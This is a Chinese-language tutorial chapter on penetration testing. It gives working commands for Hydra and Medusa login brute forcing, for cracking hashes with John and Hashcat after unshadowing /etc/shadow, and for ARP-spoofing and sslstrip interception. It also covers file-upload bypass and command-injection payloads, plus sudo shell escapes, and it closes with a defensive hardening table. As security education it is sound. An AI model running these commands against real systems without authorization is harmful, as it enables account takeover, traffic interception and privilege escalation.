

+++
title = "第73章：渗透测试"
weight = 730
date = "2026-03-24T13:18:28+08:00"
type = "docs"
description = ""
isCJKLanguage = true
draft = false
+++


# 第七十三章：渗透测试

> ⚠️ **重要法律警告**：
> 本章节内容仅供**学习和授权测试**使用！
> 
> - **未经授权**对他人系统进行渗透测试属于**违法行为**！
> - 可能违反《网络安全法》、《刑法》等相关法律法规！
> - 请确保在**合法授权**的环境下进行练习！
> - 建议仅在**自己的系统**或**专门搭建的测试环境**中实践！
> 
> **记住**：技术无罪，但滥用技术可能犯罪！

---

## 73.0 先明确边界与流程

渗透测试和"攻击"最大的区别在两个字：**授权**。动手之前，必须有一份写清楚范围的书面授权（通常叫
授权书或 Rules of Engagement），至少要包含：

| 要素 | 说明 |
|------|------|
| 测试范围 | 明确列出允许测试的域名、IP 段、应用；**不在清单里的资产一律不碰** |
| 测试时间 | 允许在哪个时间段进行，是否允许在业务高峰操作 |
| 允许的动作 | 是否允许口令爆破、是否允许上传文件、是否允许提权、是否允许读业务数据 |
| 禁止的动作 | 例如禁止拒绝服务、禁止触碰生产数据库、禁止社工第三方 |
| 应急联系人 | 出问题时找谁、怎么联系，这是最重要的一条 |
| 数据处理 | 测试中拿到的数据如何保管与销毁，不得带走用于其他用途 |

标准流程大致如下（PTES 等方法论都是这个骨架）：


```mermaid
graph LR
    A[前期沟通<br/>确认范围与授权] --> B[信息收集]
    B --> C[威胁建模<br/>找可能的突破口]
    C --> D[漏洞扫描与验证]
    D --> E[漏洞利用<br/>拿到初始立足点]
    E --> F[权限提升]
    F --> G[横向移动<br/>评估影响范围]
    G --> H[留存证据]
    H --> I[编写报告<br/>问题+影响+修复建议]
    I --> J[协助修复并复测]
```

> **提醒**：`权限提升`、`横向移动` 这类动作风险高，只有在授权范围内且确有必要时才做，
> 且每一步都要留存证据（时间、命令、输出），否则报告里说不清楚，客户也没法复现和修复。

> 关于口令攻击还有一个观念要更新：传统的"拿字典硬撞"在真实系统中很容易触发账号锁定和告警，
> 现在更常被采用的是 **密码喷洒（Password Spraying）**——用少量最弱的常见口令（如 `Company@2026`）
> 去试探**大量账号**，每轮间隔较长时间，避免触发锁定阈值。它的隐蔽性远高于暴力破解，
> 也因此更需要靠上表里的"允许动作"来约束。

## 73.1 暴力破解

暴力破解就是用大量用户名/口令组合反复尝试登录，"用数量换运气"。
它在实验环境里很好用，但在有账号锁定、限速或验证码的真实系统上往往行不通，
因此在实际测试中常被前面提到的**密码喷洒**替代。

### Hydra 工具

Hydra 是最流行的暴力破解工具，支持众多协议。

```bash
# 安装
sudo apt install hydra

# 基本语法
hydra -l 用户名 -p 密码 目标 服务

# SSH 暴力破解
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.1

# FTP 暴力破解
hydra -l admin -P passwords.txt ftp://192.168.1.1

# HTTP 表单破解
hydra -l admin -P passwords.txt 192.168.1.1 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"

# 破解多个用户
hydra -L users.txt -P passwords.txt ssh://192.168.1.1
```

最后那个 HTTP 表单的参数格式值得单独解释一下，它是 hydra 里最容易写错的部分：

```text
"/登录路径:请求体:判断条件"
   |          |        |
   |          |        └─ F=失败特征串（出现它就说明这次没成功）
   |          |           也可以用 S=成功特征串
   |          └────────── 用 ^USER^ 和 ^PASS^ 作为占位符
   └───────────────────── 提交表单的 action 路径
```

> **写错这里的典型后果**：把 `F=` 和 `S=` 搞反、或者特征串选得不够独特（比如整个页面里到处都是这个词），
> hydra 就会把一大堆失败尝试都报成"破解成功"，全是误报。**先手工登录一次，分别看成功和失败页面的差异**，
> 再挑一个只在失败页面出现的字符串填进 `F=`。

### Hydra 常用选项

| 选项 | 说明 |
|------|------|
| -l | 指定用户名 |
| -L | 用户名字典文件 |
| -p | 指定密码 |
| -P | 密码字典文件 |
| -t | 并发线程数 |
| -v | 详细输出 |
| -o | 输出到文件 |
| -f | 找到第一组有效凭证就停止（默认是跑完整本字典） |
| -s | 指定端口 |
| -e nsr | 额外尝试空密码（n）、登录名当密码（s）、登录名倒序（r） |
| -I | 忽略上次中断留下的恢复文件，重新开始 |
| -R | 从上次中断处继续（恢复会话） |

> **几个实践要点**
>
> - 默认线程数是 16。对 SSH 建议降到 `-t 4`，否则连自己都会被目标的连接限制挡在门外，反而更慢。
> - 在真实环境里，尝试之前先确认**账号锁定策略**，否则几轮就把管理员账号锁掉，测试直接中断。
> - hydra 的 `-o/-b` 可以把结果和恢复文件写到指定路径，长任务务必加上，中断后能接着跑。

### SSH 破解示例

```bash
# 单用户破解
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100 -V

# 多用户破解
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt \
    -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt \
    ssh://192.168.1.100 -V

# 指定端口并显示每次尝试（-V 是"显示每一次尝试"，不是暂停/恢复）
hydra -l root -P passwords.txt ssh://192.168.1.1 -V -s 22

# 只跑 4 个线程，并指定输出文件，适合对性能敏感的目标
hydra -l root -P passwords.txt ssh://192.168.1.1 -t 4 -o hydra-ssh.txt

# 会话恢复：上次跑到一半被中断，用 -R 继续
hydra -R
```

### Medusa 工具

```bash
# 安装
sudo apt install medusa

# SSH 破解
medusa -h 192.168.1.1 -u root -P passwords.txt -M ssh

# FTP 破解
medusa -h 192.168.1.1 -u admin -P passwords.txt -M ftp

# 查看支持模块
medusa -d

# 指定端口、并发线程，并额外尝试空密码和"用户名即密码"
medusa -h 192.168.1.1 -u root -P passwords.txt -M ssh \
    -n 22 -t 4 -e ns -O medusa-ssh.txt

# 模块自己的参数用 -m 传，例如指定 HTTP 表单的失败特征
medusa -h 192.168.1.1 -u admin -P passwords.txt -M http \
    -m DIR:/login -m FORM:username=^USER^&password=^PASS^ -m FAIL:incorrect
```

> **Hydra 还是 Medusa？** 两者能力重叠，Hydra 支持的协议和社区资料更多、平时更常用；
> Medusa 在**并发大、需要按主机列表批量跑**的场景下更稳定（支持 `-H hosts.txt`）。
> 会用其中一个，另一个能看懂命令即可。

### 密码字典生成

```bash
# Kali 自带字典
ls /usr/share/wordlists/

# 使用 crunch 生成字典
crunch 8 12 abcdefghijklmnopqrstuvwxyz -o passwords.txt

# 参数说明
# crunch 最小长度 最大长度 字符集

# 生成数字密码
crunch 6 6 0123456789 -o pins.txt

# 基于规则生成
crunch 8 8 -t @@^^@@@@ -o wordlist.txt
```

`-t` 的模板字符含义：`@` = 小写字母，`,` = 大写字母，`%` = 数字，`^` = 符号。
所以 `@@^^@@@@` 表示"2 个小写字母 + 2 个符号 + 4 个小写字母"，共 8 位。

> **小心把磁盘写满**：字典体积随长度**指数级**增长，`crunch 8 12 abc...` 可能生成几十 GB。
> 生成前先估算容量，必要时用 `-b` 按大小切分成多个文件，或用 `-c` 只生成指定的条数：
>
> ```bash
> # 每个文件最多 100MB，自动切成 wordlist.txt-0001、0002……
> crunch 8 12 abcdefghijklmnopqrstuvwxyz -o wordlist.txt -b 100mb
>
> # 只生成 1000 条，用于快速验证命令是否正确
> crunch 8 8 -t @@^^@@@@ -c 1000
> ```

## 73.2 密码破解

### John the Ripper

```bash
# 安装（发行版仓库中的通常是功能齐全的 Jumbo 版）
sudo apt install john

# 基本用法
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# 查看支持的哈希格式（Jumbo 版支持的格式非常多）
john --list=formats

# 破解 Linux 本地账户密码
# /etc/shadow 只有 root 能读，所以要用 sudo；
# unshadow 把 passwd 与 shadow 合并成 John 能识别的格式
sudo unshadow /etc/passwd /etc/shadow > combined.txt
sudo chown "$USER" combined.txt          # 后面用普通用户跑 john 更方便
john --wordlist=/usr/share/wordlists/rockyou.txt combined.txt

# 使用规则变形，常见单词也能派生出大量变体（P@ssw0rd、password123 之类）
john --wordlist=/usr/share/wordlists/rockyou.txt --rules combined.txt

# 字典跑完还没出结果时，用"增量模式"纯爆破（很慢，量力而行）
john --incremental combined.txt

# 查看已破解的密码
john --show combined.txt
```

> **几个要点**
>
> - 发行版自带的 John 通常是 **Jumbo 版**，比官网上的核心版支持更多哈希类型和更强功能；
>   如果提示格式不支持，优先考虑换 Jumbo 版，而不是怀疑哈希坏了。
> - 现代 Linux 用 **yescrypt**（哈希以 `$y$` 开头）或 **sha512crypt**（以 `$6$` 开头）存储口令，
>   单个口令的验证开销很大，纯爆破效率极低，字典 + 规则才是现实选择。
> - 不写参数直接运行 `john 文件` 时，John 会依次尝试"单条模式 → 字典 → 增量模式"，
>   适合不知道从哪下手时先跑一轮。

<details>
<summary>老版本写法（了解即可）</summary>

```bash
# 早期教程里常见的写法，效果与上面等价，区别只是没有用 sudo 读 shadow
unshadow /etc/passwd /etc/shadow > combined.txt
john --wordlist=rockyou.txt combined.txt
```

</details>

### Hashcat

```bash
# 安装
sudo apt install hashcat

# 查看支持的攻击模式
hashcat -h | grep "Attack"

# 查看支持的模式
hashcat --help | grep -i "hash-mode"

# 基本用法
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

# 参数说明
# -m: hash 类型（0=MD5, 1000=NTLM, 100=SHA1, 1400=SHA256）
# -a: 攻击模式（0=字典, 1=组合, 3=暴力）
```

常用 hash 类型（`-m`）与攻击模式（`-a`）如下，配错模式是最常见的"跑不出结果"原因：

| 哈希类型（`-m`） | 说明 |
|------------------|------|
| `0` | MD5 |
| `100` | SHA1 |
| `1400` | SHA256 |
| `1700` | SHA512 |
| `1000` | NTLM（Windows 账户口令） |
| `1800` | sha512crypt（Linux `$6$`） |
| `22000` | WPA/WPA2 握手包 |
| `13100` | Kerberos 5 TGS-REP（Kerberoasting 常用） |

| 攻击模式（`-a`） | 说明 |
|------------------|------|
| `0` | 字典：直接用一本或多本字典 |
| `1` | 组合：把两本字典拼接组合（`wordlist1 + wordlist2`） |
| `3` | 掩码/暴力：按字符集逐位穷举，如 `?a?a?a?a?a?a` |
| `6` | 混合：字典 + 掩码（前面字典、后面补数字） |
| `7` | 混合：掩码 + 字典 |

### GPU 加速破解

```bash
# 列出可用设备（确认显卡被正常识别、驱动没装错）
hashcat -I

# Hashcat 支持 CUDA/ROCm
hashcat -m 0 -a 3 hashes.txt ?a?a?a?a?a?a

# 使用 GPU
hashcat -m 0 -a 0 -d 1 hashes.txt wordlist.txt

# 混合攻击
hashcat -m 0 -a 6 hashes.txt wordlist.txt ?d?d?d

# 常用辅助参数
# -w 3         工作量档位（1 最省资源，4 最高，机器卡顿时调低）
# -o cracked    把破解结果单独写入文件
# --show        只看已经破解出来的结果
# --username    哈希文件里带用户名时，忽略用户名只取哈希
hashcat -m 1000 -a 0 -w 3 -o cracked.txt --username ntlm.txt \
    /usr/share/wordlists/rockyou.txt

# 查看已破解结果（hash:明文 的形式）
hashcat -m 1000 ntlm.txt --show

# 不知道某个哈希属于哪种类型时，先看看官方给的示例格式
hashcat --example-hashes --hash-type 1000 | head -20
```

> **新手最容易卡住的三件事**
>
> 1. **`-m` 选错**：哈希类型不对，无论跑多久都不会有结果。不确定就先查
>    `hashcat --example-hashes`，或看哈希的长度/前缀（`$6$` 是 sha512crypt 等）。
> 2. **哈希文件格式不对**：文件里应只放"哈希值"本身，不要带 `hash:` 之类多余内容；
>    带用户名时加 `--username`。
> 3. **没有可用设备/显存不足**：虚拟机、容器里通常拿不到 GPU，只能用 CPU 跑（很慢）；
>    设备识别异常时先 `hashcat -I` 排查驱动，而不是直接加 `--force` 硬来。

> **合法提醒**：Hashcat 与 John 只能用于对自己持有或已获授权的哈希做分析；
> 拿到别人的影子文件、导出库或握手包去跑破解，同样属于违法行为。

## 73.3 中间人攻击

### 什么是中间人攻击？

MITM（Man-in-the-Middle）攻击是攻击者插入到通信双方之间的攻击方式。


```mermaid
graph LR
    A[Alice] -->|正常通信| B[Bob]
    
    A -->|被劫持| C[Eve]
    C -->|转发| B
    B -->|响应| C
    C -->|转发| A
    
    style C fill:#f99
```

### ARP 欺骗

```bash
# 安装 dsniff（arpspoof 就在这个包里）
sudo apt install dsniff

# 开启 IP 转发，否则流量到了你这里就断了，受害者的网会直接断掉
# 注意：重定向符号 > 是由当前 shell 执行的，所以不能写成 sudo echo 1 > ...
sudo sysctl -w net.ipv4.ip_forward=1
# 等价写法：echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# ARP 欺骗：告诉受害者"网关的 MAC 是我"
sudo arpspoof -i eth0 -t 192.168.1.100 192.168.1.1

# 参数说明
# -i: 网卡
# -t: 要欺骗的目标 IP
# 后面的参数: 你想冒充的那台机器（通常是网关）
```

> **必须双向欺骗**：上面这条命令只骗了受害者。要完整劫持，还得**再开一个终端**骗网关，
> 否则只能看到受害者发出的流量，看不到服务器返回的响应：
>
> ```bash
> # 反过来告诉网关"受害者的 IP 在我这里"
> sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.100
> ```
>
> **务必记得恢复**：测试结束后停掉 arpspoof，受害者的 ARP 缓存会在几十秒到几分钟内自动纠正；
> 觉得不放心可以在受害机上执行 `sudo arping -c 3 -A -I eth0 192.168.1.100` 主动通告真实 MAC，
> 或者直接重启受害机的网络。断网几分钟没人发现，但断一整天就是事故了。

### Ettercap

```bash
# 安装
sudo apt install ettercap-graphical

# 图形界面启动
ettercap -G

# 命令行
sudo ettercap -i eth0 -T -M arp:remote /192.168.1.1// /192.168.1.100//

# 参数说明
# -i: 网卡
# -T: 文本模式
# -M: 攻击模式
```

### SSLstrip

```bash
# 安装
sudo apt install sslstrip

# 先做 ARP 欺骗
sudo arpspoof -i eth0 -t 192.168.1.100 192.168.1.1

# 启动 sslstrip，监听 10000 端口（默认就是 10000，-l 可显式指定）
sslstrip -l 10000

# 用 iptables 把经过本机的 80 端口流量重定向给 sslstrip
sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 \
    -j REDIRECT --to-port 10000

# sslstrip 会把抓到的内容写到日志里（默认 sslstrip.log）
tail -f sslstrip.log
```

> **为什么现在很少用了**：`sslstrip` 依赖"先把 HTTPS 降级成 HTTP"这个前提，
> 而 **HSTS**（严格传输安全）会让浏览器强制走 HTTPS，降级这条路上基本被堵死了。
> 另外 sslstrip 本身已多年不更新，现在做 MITM 更常用 **bettercap**（内置 ARP、嗅探、HTTPS 降级与代理模块）：
>
> ```bash
> sudo apt install bettercap
> sudo bettercap -iface eth0
> # 进入交互界面后：
> #   net.probe on          探测同网段主机
> #   arp.spoof on          开启 ARP 欺骗
> #   net.sniff on          开启流量嗅探
> ```
>
> **顺带说清楚**：HTTPS 流量本身没法被 sslstrip "解密"，
> 要看到明文只有两条路——让受害者接受一个伪造证书（浏览器会报警告，除非在客户端预装了你的根证书），
> 或者直接攻陷其中一台主机。这也是为什么现代防御里"证书校验 + HSTS + 证书透明度监控"三件套这么重要。

## 73.4 Web 渗透基础

### OWASP Top 10

OWASP（Open Web Application Security Project）发布的 Top 10 是 Web 安全最常用的参考清单。
**它不是每年更新，而是大约每 3~4 年修订一次**，写这份材料时最新正式版本是 **2021 版**：

| 排名 | 风险 | 说明 |
|------|------|------|
| A01 | Broken Access Control（访问控制失效） | 越权访问、水平/垂直越权，连续多年位居第一 |
| A02 | Cryptographic Failures（加密机制失效） | 明文传输、弱算法、密钥管理不当导致数据泄露 |
| A03 | Injection（注入） | SQL、命令、LDAP 注入等，把不可信数据当代码执行 |
| A04 | Insecure Design（不安全的设计） | 缺少威胁建模，流程本身就有缺陷（如找回密码可遍历） |
| A05 | Security Misconfiguration（安全配置错误） | 默认口令、开启调试、目录列表、多余功能未关闭 |
| A06 | Vulnerable and Outdated Components（使用有漏洞或过期的组件） | 依赖库/框架版本过旧 |
| A07 | Identification and Authentication Failures（身份认证失效） | 弱口令、会话固定、缺少多因素认证 |
| A08 | Software and Data Integrity Failures（软件与数据完整性失效） | 不安全的反序列化、供应链投毒 |
| A09 | Security Logging and Monitoring Failures（日志与监控不足） | 出了事看不到、发现不了 |
| A10 | SSRF（服务端请求伪造） | 让服务器替你访问内网或云元数据接口 |

> **注意版本差异**：网上大量教程里列的"1 Injection、2 Broken Authentication、3 Sensitive Data Exposure……"
> 是 **2017 版**的排序，已经过时；XSS 在 2021 版中被并入 A03 注入类，不再单独占一行。
> 引用时请注明版本，最好到 `owasp.org` 官网确认是否有更新。

### 文件上传漏洞

上传功能的核心问题是：**服务端只做了"看起来像图片"的检查，却把文件放到了能被当成脚本执行的位置**。
测试思路就是围绕这两点各试一遍。

```bash
# 一、检查"校验能不能被绕过"
# 1. 上传一张正常图片，确认功能与返回路径
# 2. 修改扩展名：test.php → test.php.jpg / test.phtml / test.php5 / test.pht / test.phar
# 3. 修改 Content-Type：image/jpeg → application/x-php，看服务端是否只信这个头
# 4. 在文件头补上图片魔数（GIF89a、\xFF\xD8\xFF），骗过"读文件头"的检查
# 5. 双写/大小写混淆：test.pphphp（绕过简单的字符串替换）、test.PHP
# 6. 图片马：把 webshell 追加到正常图片尾部，配合解析漏洞或 .htaccess 触发

# 二、检查"上传后的文件能不能被执行"
# 直接访问上传路径，看返回的是文件内容还是被当作脚本执行了
curl -i "http://target.com/uploads/test.jpg"
```

> **关于 `%00` 截断**：`test.php%00.jpg` 这种写法只在**极老的 PHP（5.3.4 之前）和早期 Java 环境**里有效，
> 现代语言与框架早已修复，遇到新系统基本不会成功，**不要再把它当成常规手段**（写报告时要标注适用版本）。

如果确认上传目录可执行脚本，才轮到上传 webshell。**这一步风险很高，只有在授权明确允许时才做**，
而且原则是"验证即可、立即清理"——用一个无害的命令证明能执行，而不是留下后门：

```bash
# 最小验证用的 webshell（只回显一个固定字符串，不做任何危险操作）
# <?php echo "UPLOAD_TEST_OK_" . php_uname(); ?>

# 上传成功后访问验证
curl "http://target.com/uploads/test.php"

# 验证完立即通过同一个漏洞把文件删掉，并在报告中记录文件名与时间
```

> **防御要点（反过来看就是加固清单）**：扩展名白名单 + 服务端重新编码图片（破坏嵌入的脚本）、
> 上传目录禁止执行脚本、文件名重命名不留原始名、存储与访问分离（放到对象存储而不在 Web 根目录）。

### 命令执行漏洞

```bash
# 测试用例
# ; whoami
# | whoami
# & whoami
# `whoami`
# $(whoami)

# 命令注入
# Linux: ping -c 3 127.0.0.1; whoami
# Windows: ping -n 3 127.0.0.1 & whoami

# 防御绕过
# 空格绕过：${IFS}
# 命令替换：$(echo\ test)
# 编码绕过：$(echo d2hvYW1p | base64 -d)
```

## 73.5 权限提升

### 本地提权

```bash
# 1. 查看当前用户
whoami
id

# 2. 查看 sudo 权限
sudo -l

# 3. 查看系统版本
uname -a
cat /etc/issue

# 4. 查看可执行文件的 SUID
find / -perm -4000 2>/dev/null

# 5. 查看开放端口（netstat 已废弃，用 ss）
ss -tulpn

# 6. 查找漏洞
searchsploit linux kernel 5.4
```

提权排查的思路可以归纳成一张清单，**拿到低权限 shell 后按顺序过一遍**：

| 方向 | 检查命令 / 关注点 |
|------|-------------------|
| sudo 配置 | `sudo -l`：能免密执行哪些命令，是否有 `NOPASSWD` |
| SUID / SGID 文件 | `find / -perm -4000 -type f 2>/dev/null` |
| 文件能力（capabilities） | `getcap -r / 2>/dev/null`（`cap_setuid` 之类往往是突破口） |
| 计划任务 | `cat /etc/crontab`、`ls -la /etc/cron.*`，看是否有可写脚本被 root 执行 |
| 可写敏感文件 | `find / -writable -type f 2>/dev/null \| grep -v '^/proc'` |
| 服务与配置 | 以 root 运行的服务、可写配置、`.service` 文件权限 |
| 内核与组件版本 | `uname -r` + `searchsploit`，只在其他路都走不通时才考虑 |
| 明文凭证 | 配置文件、历史命令、备份文件里的密码（`~/.bash_history`、`*.bak`、`*.sql`） |

### Sudo 提权

```bash
# 查看 sudo 权限
sudo -l

# 常见的可 sudo 执行命令
# vim, less, more, nano, cp, mv, wget, curl, python, perl, ruby, nmap, git, systemctl, systemctl restart apache2

# vim 提权
sudo vim -c ':!/bin/bash'

# less 提权（在 less 里输入 !/bin/bash 回车即可）
sudo less /etc/passwd
!/bin/bash

# git 提权
sudo git help config
!/bin/bash
```

> **`sudo nmap --interactive` 已经失效**：该选项在 **Nmap 7.25（2016 年）就被移除了**，
> 新版 Nmap 执行会直接报未知选项。很多老教程还在写它，照着敲只会浪费时间。
>
> **正确的做法是查字典**：拿到 `sudo -l` 的输出后，把里面出现的每个命令拿去
> **GTFOBins（https://gtfobins.github.io/）** 上搜一下，看它有没有 `sudo` 分类下的逃逸方法。
> 上面列的 `vim`、`less`、`git` 只是最常见的那几个，实际环境中真正危险的是那些
> **能调用外部命令、能读写文件、能启动子进程**的"无害工具"（`find`、`tar`、`awk`、`man`、`env` 等）。

### 内核漏洞提权

```bash
# 查看内核版本
uname -r
cat /proc/version

# 使用 searchsploit 查找漏洞
searchsploit "Linux Kernel" | grep "3.2.0"

# 常用提权辅助脚本
# LinPEAS（PEASS-ng 项目的一部分，目前最常用）：
#   https://github.com/peass-ng/PEASS-ng
# linux-exploit-suggester（按内核版本推荐可用 EXP）：
#   https://github.com/mzet-/linux-exploit-suggester
# LinEnum（较老，仍可用但更新少）：
#   https://github.com/rebootuser/LinEnum

# 下载并运行 LinPEAS（用最新发布版直链，避免老路径失效）
curl -L -o linpeas.sh \
    https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

> **在目标上跑脚本前想清楚两件事**：一是它输出量极大，最好重定向到文件再看重点
> （脚本会把可疑项标成红色）；二是**它会在目标机器上留下文件和执行记录**，
> 严格授权的场景下要先确认这属于允许的动作。
>
> 拿到提权点之后的动作更要有分寸：**证明"我能提权"并不需要真的长期控制机器**。
> 例如只在 root 下执行 `id` 并记录输出，就足以作为证据写进报告。

## 73.6 换个视角：这些攻击怎么防

只会打不会防，等于只学了一半。上面每一种攻击手段，在防御方都有一条对应的加固措施。**建议你在练习完之后，立刻用下面这张表回头检查自己的服务器**：

| 攻击手法 | 防御措施 |
|----------|----------|
| SSH/FTP/Web 表单暴力破解 | ① 禁用密码登录、改用密钥（`PasswordAuthentication no`）② 用 **fail2ban** 自动封禁多次失败的 IP ③ 开启多因素认证（MFA）④ 只暴露必要端口，管理口不要直接暴露公网 |
| 离线哈希破解（John/Hashcat） | 密码要"长且不重复"（长度比复杂度更重要）；系统密码用 `sha512`/`yescrypt`（现代发行版默认），绝不要用 MD5/SHA1 存密码 |
| ARP 欺骗 / 中间人 | 交换机上开 **DHCP Snooping + Dynamic ARP Inspection**；无线只信 WPA2/WPA3；敏感流量全部走 HTTPS |
| SSLstrip（降级到 HTTP） | 全站启用 **HSTS**（`Strict-Transport-Security: max-age=63072000; includeSubDomains; preload`）。有了 HSTS，浏览器不会再"先试 HTTP"，SSLstrip 这类降级攻击基本失效 |
| 文件上传漏洞 | 白名单校验扩展名与 MIME；上传目录**不要**放在 Web 根目录下可执行的位置；Nginx/PHP 层面禁止在上传目录执行脚本；给上传文件改名（不留原始文件名） |
| 命令注入 | 代码里不要拼接 shell 字符串（比如 PHP 的 `system()`、Python 的 `os.system()`）；必须调用外部命令时用参数数组形式（不经过 shell）；对用户输入做严格白名单校验 |
| Sudo 提权（`sudo git help` 之类） | 不要在 sudoers 里放任何"能间接执行命令"的程序（`find`、`vim`、`less`、`git`、`tar` 等都属于此类）；用 `sudo -l` 定期审计，优先用 `NOPASSWD` + 专用脚本而不是通用工具 |
| 内核漏洞提权 | 及时打补丁（`unattended-upgrades` / `dnf-automatic`）；用 `uname -r` 跟踪内核版本；生产环境尽量用发行版官方内核而不是自己编译的老内核 |

还有几条"不花钱但特别有效"的通用加固：

```bash
# 1. 关闭不需要的服务，减少攻击面
sudo ss -tulpn            # 先看清哪些端口在监听
sudo systemctl disable --now telnet.socket rsh.socket 2>/dev/null

# 2. 用最小权限运行服务：能用普通用户就别用 root
sudo systemctl edit nginx     # 可以加 User=/Group= 覆盖

# 3. 打开审计与日志，出事之后才查得到
sudo apt install auditd -y
sudo systemctl enable --now auditd

# 4. 定时打补丁（Ubuntu/Debian 自动安全更新）
sudo dpkg-reconfigure unattended-upgrades

# 5. 用 lynis 做一次基线体检（只读扫描，不改配置）
sudo apt install lynis -y && sudo lynis audit system
```

> 一句运维老话：**"渗透测试的价值不在于你能攻进去，而在于你攻进去之后，把洞堵上了。"**

---

## 本章小结

本章我们学习了渗透测试的基本技术：

| 技术 | 工具 / 要点 |
|------|-------------|
| 授权与流程 | 书面授权、范围、时间窗口、应急联系人；PTES 流程 |
| 口令攻击 | Hydra / Medusa 在线爆破；真实环境更常改用**密码喷洒** |
| 哈希破解 | John（CPU，格式支持全）/ Hashcat（GPU，速度快） |
| 中间人攻击 | ARP 欺骗（必须双向）、ettercap / bettercap；SSLstrip 已被 HSTS 挡住 |
| Web 渗透 | OWASP Top 10（2021 版）、文件上传、命令注入 |
| 权限提升 | sudo 滥用（对照 GTFOBins）、SUID、计划任务、能力、内核漏洞 |
| 防御视角 | 针对每种攻击的加固清单，以及 `lynis` 基线体检 |

把这一章放回整个安全测试流程里看，它处在"验证漏洞能不能真正被利用"这一段：


```mermaid
graph LR
    A[信息收集] --> B[漏洞扫描]
    B --> C[漏洞验证与利用]
    C --> D[获得低权限立足点]
    D --> E[权限提升]
    E --> F[评估影响范围<br/>横向移动]
    F --> G[留存证据]
    G --> H[编写报告与修复建议]
    H --> I[协助修复并复测]
```

三条最实在的经验：

1. **授权先行**：没有书面授权，上面任何一条命令都不应该执行；授权范围外的资产一律不碰。
2. **证据优先**：渗透测试的产出是**报告**而不是"进去了"。每一步的命令、时间、输出都要留痕。
3. **攻防一体**：每学一种攻击手段，就顺手把它在 73.6 里对应的防御措施检查一遍，这才是安全测试真正的价值。

---

> ⚠️ **温馨提示**：
> 本章所有内容仅供授权测试和学习使用。未经授权的渗透测试是违法行为，请遵守法律法规！

---

**第七十三章：渗透测试 — 完结！** 🎉

下一章我们将学习"网络安全工具"，掌握 Wireshark、Tcpdump、Netcat 等工具。敬请期待！ 🚀
